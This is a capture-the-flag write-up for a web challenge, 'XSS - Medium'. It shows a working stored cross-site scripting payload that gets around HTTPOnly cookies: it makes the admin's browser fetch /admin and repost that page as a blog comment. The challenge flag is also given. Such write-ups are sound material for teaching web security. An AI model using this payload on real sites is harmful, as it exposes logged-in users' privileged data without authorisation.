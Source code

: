 # XSS - Medium
Category: Web

## Description
We've taken steps to stop you stealing our cookies!

Can you get the flag from the admin user? He's logged on right now

## Write-up
- Similar to the [`XSS - Easy`](../xss-easy/README.md) challenge, we can still create malicious comments on the blog.
- However, there is a change now: the use of `HTTPOnly` cookies. We cannot retrieve the admin's cookie using JavaScript anymore.
- Instead, we can make the admin navigate to `/admin` and retrieve the content of that page, and have that content be the comment itself.
- An example of the payload is:
```
<script>
    fetch("/admin", { credentials: "include" }).then(res => res.text()).then(res => {
        let formData = new FormData();
        formData.append("name","testing");
        formData.append("comment",res);
        fetch("/new-comment", {method: "POST", body: formData})
    });
</script>
```
- After submitting our payload, we can refresh the page and view the flag in one of the blog post's comments.

Flag: `punk_{TA2QJ0AU83LN3OH0}`
